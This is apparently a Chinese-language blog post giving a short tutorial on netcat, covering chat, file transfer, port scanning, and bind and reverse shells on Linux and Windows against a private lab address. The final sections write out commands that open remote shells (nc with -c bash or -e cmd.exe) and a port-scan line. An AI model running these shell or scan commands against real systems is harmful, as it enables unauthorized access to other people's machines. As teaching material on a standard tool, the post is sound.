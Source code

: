 ```yaml
---
layout: post
title:  "那什麼鬼 -- netcat 基礎用法"
date:   2021-10-06 09:12:10 +0800
author: "summer"
categories: 那什麼鬼
header-style: text
tags:
  - 那什麼鬼
  - Linux
  - netcat
  - 網路
---
```

netcat 是一個多功能的網路工具，紀錄一下他的常用功能

## 即時對談

在要當 server 的機器 192.168.67.128 上執行

```bash
nc -l -p 12345
```

在 client 端執行

```bash
nc 192.168.67.128 12345
```

就能有簡單的交談功能

## 傳送檔案

在要接收檔案的機器上執行

```bash
nc -l -p 12345 > out.file
```

在要傳送檔案的機器上執行

```bash
nc -N 192.168.67.128 12345 < out.file
```

-N 是讀到時 EOF 結束連線

或

```bash
nc -w 3 192.168.67.128 12345 < out.file
```

-w 是設定 timeout 傳送完成後 3 三秒中止連線

如果要傳送多檔案，可以打包後再傳

## port scan

```bash
$nc -z -v -n 192.168.67.128 21-25
```

這會掃描目標位置的 21-25 port

-z 為不帶資料
-v 為顯示詳細
-n 為不進行解析

## get shell

如果你的 nc 沒有 -c -e ，可以安裝 nmap 使用其中的 ncat ，指令是一樣的

-c 為執行命令
-e 為執行程式

### linux

server

```bash
nc -lp 12334 -c bash
```

client

```bash
nc 192.168.67.128 12334
```

### windows

server

```bash
nc -lp 12334 -e cmd.exe
```

client

```bash
nc 192.168.67.128 12334
```

## Reverse Shell

### linux

server

```bash
nc -lp 12334
```

client

```bash
nc 192.168.67.128 12334 -c bash
```

### windows

server

```bash
nc -lp 12334
```

client

```bash
nc 192.168.67.128 12334 -e cmd.exe
```
